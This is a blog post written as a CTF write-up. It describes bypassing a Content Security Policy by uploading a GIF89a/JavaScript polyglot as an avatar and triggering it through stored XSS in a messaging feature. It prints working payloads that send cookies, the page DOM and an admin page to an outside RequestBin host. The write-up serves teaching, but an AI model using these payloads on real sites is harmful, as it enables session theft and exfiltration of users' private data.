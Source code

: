```yaml
---
layout: post
title: "CTF Snippets: XSS.gif"
tags:
- hack
- ctf
- sectalks
- xss
- csrf
- file-upload
- image
- gif
- csp
- chrome
- safari
categories:
- devalias
disqus: true
webmention: true
crosspost_to_medium: true
---
```

I was playing around with the top challenge on the CTF at [SecTalks](http://www.sectalks.org/canberra/) the other night, and thought I'd do a quick writeup of some of the techniques required; for future reference, and to help others to learn.

## Hack the gibso.. Website

To start off, we were given a URL to a website that looked like a pretty standard sort of blog. Features included things like account registration/login, avatar upload, messaging between users, search, posts (not by a standard account), comments on posts (standard account), showing online users, etc. And the `administrator` was online.. interesting.

Poking around at things, I discovered that the messaging system didn't seem to filter out HTML from the subject/message body. Easy! (or so I thought) I put together a super basic PoC XSS payload and tried it out by sending a message to my own account:

```html
<script>alert('XSS')</script>
```

I checked the message.. but for some reason it didn't pop, even though my payload seemed fine in the source. :(

```html
<div class="well">
  <script>alert('XSS')</script>
</div>
```

Looking at the developer console gave me some more insight. Apparently this site had [Content Security Policy](https://en.wikipedia.org/wiki/Content_Security_Policy) enabled, and it was blocking my payload.

> Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-kNShxzU0TYI8w1bsujgbPcQ4oIISMT9erFfdwx1ma+M='), or a nonce ('nonce-...') is required to enable inline execution.

Probably should have noticed those headers earlier.. Oh well, now to find a way around them. With spacing added for readability, the headers looked like:

```
Content-Security-Policy:
  default-src 'none';
  img-src 'self' placehold.it *.imgix.net;
  script-src 'self';
  connect-src 'self';
  style-src 'self' fonts.gstatic.com fonts.googleapis.com;
  font-src 'self' fonts.googleapis.com fonts.gstatic.com;
```

Since compromising Google or any other websites just to beat this CTF seemed out of the question, I figured I needed a way to get my script payload uploaded so that it would run from `self`.

How about that avatar upload functionality? Well, as you might expect, it was restricted to uploading images. But surely we could find a way around that.. right? Seems so! By making use of a super simple image format, we could trick the image checker and upload our payload.

Using the `GIF89a` format (which conveniently starts with it's name, then the rest is the GIF payload) I constructed and uploaded my new 'avatar' `pwn.gif`, designed to steal cookies via [RequestBin](http://requestb.in/):

```javascript
GIF89a/*.......*/=0;
window.location='http://requestb.in/secretcode?c='+document.cookie;
```

This passed the file format checker (which should have seen it as a GIF), and hopefully when I included it in my XSS, the JavaScript would execute. Not the stealthiest payload, but it should do the trick. It was time to test out my new 'avatar' by sending myself a test message:

```html
<script src="http://example.com/uploads/filenamehash.gif"></script>
```

Loading the new message.. there was still no payload! :( It seems Chrome foiled my plans again:

> Refused to execute script from 'http://example.com/uploads/filenamehash.gif' because its MIME type ('image/gif') is not executable.

This seemed like a browser specific security feature though, so trying it out in Safari, my payload executed. Good work Apple security! Checking the captured results on RequestBin there were no cookies. Guess I probably should have looked at that `HttpOnly` flag first.. Sometimes I just get caught up in the heat of the moment.

Ok.. so we couldn't steal the cookies.. but what could we do? [Cross-Site Request Forgery (CSRF)](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)) maybe? There was a CSRF token designed to prevent this, but it didn't seem to get validated. That's good.. but what should we target?

Needing some better visibility on the situation, I decided to just steal the whole [DOM](https://en.wikipedia.org/wiki/Document_Object_Model) and have a look around. Maybe the administrator had other cool things to look at? Hacker-eyes activate! (comments added for clarity):

```javascript
GIF89a/*.......*/=0;
/* Wait for the page to fully load */
window.onload = function() {
  /* Create a form to send to RequestBin */
  var f = document.createElement('form');
  f.id="haxForm";
  f.method="post";
  f.action="http://requestb.in/secretcode";

  /* Create a textarea to store our data */
  var t = document.createElement('textarea');
  t.name="haxPayload";

  /* Capture the entire DOM and Base64 encode it */
  t.value = btoa(document.documentElement.outerHTML)

  /* Inject the form and send it */
  f.appendChild(t);
  document.body.appendChild(f);
  document.getElementById("haxForm").submit();
};
```

Ignoring my rusty JavsScript, the new payload would create a HTML `form` element with a `textarea`, grab the entire contents of the DOM, [Base64 encode](https://developer.mozilla.org/en-US/docs/Web/API/WindowBase64/btoa) them, stick them in the `textarea`, inject the `form` into the page, then send that off to RequestBin.

After checking that this actually worked against my own account, I sent a message to the administrator and waited. After a minute or so, the message status changed to read. Heading over to RequestBin and decoding the captured DOM, I found the following snippet:

```html
<li><a href="admin.php">Administration</a></li>
```

Sweet, let's find something juicy on that page! Reworking the payload (with a little help from [JQuery](https://api.jquery.com/jquery.get/) that was already on the site):

```javascript
GIF89a/*.......*/=0;
/* Wait for the page to fully load */
window.onload = function() {
  /* Create a form to send to RequestBin */
  var f = document.createElement('form');
  f.id="haxForm";
  f.method="post";
  f.action="http://requestb.in/secretcode";

  /* Create a textarea to store our data */
  var t = document.createElement('textarea');
  t.name="haxPayload";

  /* Inject the form */
  f.appendChild(t);
  document.body.appendChild(f);

  /* Load the admin page ajax-style, Base64 encode it, send it off */
  $.get("admin.php", function(data) {
    t.value = btoa(data);
    document.getElementById("haxForm").submit();
  });
};
```

Using the last payload as the template, I updated it to load the `admin.php` page via ajax, Base64 encode the result and send it to RequestBin. After uploading, messaging the administrator, waiting, checking the  response and decoding; it seemed there wasn't even a need to do anything else:

```html
<legend>
  <h3>Administration</h3>
</legend>
<h4>flag{the-secret-flag-code}</h4>
```

Mischief managed!

## Raw Notes

I figured it might be fun to include the raw snippets of notes I made as I was going through this, to give a better idea of my thought process throughout:

* Administrator is online
* We can send messages to users
* We can inject images/etc in messages, but ContentSecurityPolicy blocks us from executing code from anywhere but self
* We can upload image files (can we make that other types?)
  * GIF89a based XSS, won't exec in chrome though..
* Administrator will read messages we send them (check the 'sent' page)
* Admin isn't using chrome! :p
* The request doesn't send us any cookies! :( (they're HTTP only)
* CSRF token doesn't seem to actually be validated.. What can we CSRF..?
* Use the XSS to send us the admin's DOM
* Seems there's an admin.php page..
* Ajax the admin page
* Success!

## Conclusion

This CTF was a pretty fun little challenge, tying together XSS, CSP bypass, file upload/image abuse and snooping through the DOM.

Has this helped you learn something new? Got a better way to approach it? I'd love to hear from you in the comments!

## References

* Content Security Policy
  * [Content Security Policy | OWASP](https://www.owasp.org/index.php/Content_Security_Policy)
  * [Content Security Policy Cheat Sheet | OWASP](https://www.owasp.org/index.php/Content_Security_Policy_Cheat_Sheet)
  * ["An Introduction to Content Security Policy" by HTML5 Rocks](http://www.html5rocks.com/en/tutorials/security/content-security-policy/)
  * [Content Security Policy References and Examples](https://content-security-policy.com/)
* File Upload/Image XSS
  * ["GIF Image XSS" by eXpl0i13r](https://blackpentesters.blogspot.com.au/2013/08/gif-image-xss.html)
  * [File Upload XSS | Hack2Learn](http://brutelogic.com.br/blog/file-upload-xss/)
  * [List of File Signatures | Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)
  * ["Exploiting PHP-GD imagecreatefromgif() function" by d0lph1n98 ](https://github.com/d0lph1n98/Defeating-PHP-GD-imagecreatefromgif)
* Capturing Requests
  * [Request Bin](https://requestb.in/)

